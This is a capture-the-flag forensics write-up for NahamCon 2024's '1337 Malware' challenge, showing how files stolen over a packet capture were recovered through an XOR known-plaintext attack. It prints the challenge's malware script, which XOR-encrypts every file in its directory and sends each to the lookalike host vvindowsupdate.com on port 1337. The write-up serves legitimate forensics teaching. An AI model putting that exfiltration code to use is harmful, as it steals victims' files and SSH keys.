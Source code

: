 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | 1337 Malware Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: forensics
challenge: 1337 Malware
tags: "forensics, twh, pcap, malware, python, tshark, xor, known plaintext attack"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>


## 1337 Malware
> Solved by : thewhiteh4t


- From the PCAP we can extract `rans.py` by exporting HTTP objects

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

key = randbytes(32)


def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()

    encrypted = xor(data, key)
    return encrypted


def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()


def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)
    return file_paths


files = get_all_files()
for f in files:
    send_encrypted(f)
    # os.remove(f)
```


- script generates a random key using randbytes function
- list of all files is generated and each file is passed to `send_encrypted` function
- it encrypts or encodes each file using XOR against the random key


![](https://i.imgur.com/nVmsdt6.png)



- then it first sends a message with the filename in plaintext and second it sends the encoded string


![](https://i.imgur.com/PGkqdW5.png)



- we can extract all this data to a file using `tshark` :

```
tshark -r 1337-malware.pcapng -T fields -e data.data -Y 'data.data' > enc_strings.txt
```

- since the plain text message has a fixed pattern and it begins by `Sending` the hex string remains constant so we can filter out the plain text message using start of the string : `53656e`
- each hex string of plain text message starts with it, so the full pattern is like :

```
sending file
<XORed data in hex>
.
.
.
sending file
<XORed data in hex>
```

- now we don’t have the key and the key is not sent by the script either
- after some google fu I found : `XOR Known Plaintext Attack`
- https://blog.didierstevens.com/2016/01/01/xor-known-plaintext-attack/
- if we decode only the plaintext hex strings we can see the filenames :

```
Sending: /home/davey/Documents/resources.zip
Sending: /home/davey/Documents/ecorp.png
Sending: /home/davey/Documents/Welcome Aboard.pdf
Sending: /home/davey/Documents/.ssh/id_rsa
Sending: /home/davey/Documents/.ssh/id_rsa.pub
```

- for parsing the data extracted from PCAP we can use the following python code :

```python
with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```

- now if we think about known plain text in these files, for ZIP, PNG and PDF we don’t have much data except their headers
- but for `id_rsa` the first line is standard and is present in all valid keys :

```
-----BEGIN OPENSSH PRIVATE KEY-----
```

- using this with `xor-kpa.py` we can attempt to find the key


![](https://i.imgur.com/V6VrZrZ.png)



- we only need the first key
- now we can write a decode function to get the plain text file contents : 

```python
#!/usr/bin/env python3

from pwn import xor

key = b"\x82\xc2SP\x8b\xd5LG\xa7\xe5m\xec\xd8v\xb5\xd6\xa4\'\xc6E\t\x0br\xe1\xb9q3\"\xfe\xe1YY"


def decrypt_file(filename):
        print(f'Decoding : {filename}')
        with open(filename, 'rb') as encfile:
                data = encfile.read()
        decrypted = xor(data, key)
        orig_fname = filename.replace('enc_', '')
        print(f'Writing : {orig_fname}')
        with open(orig_fname, 'wb') as decfile:
                decfile.write(decrypted)


with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```


- `resources.zip` is password protected
- `ecorp.png` is a reference to our beloved Mr Robot!
- `Welcome Aboard.pdf` contains the following content : 


![](https://i.imgur.com/uEQWs66.png)

- and we now have the password for the zip file!


![](https://i.imgur.com/BFgBtLB.png)



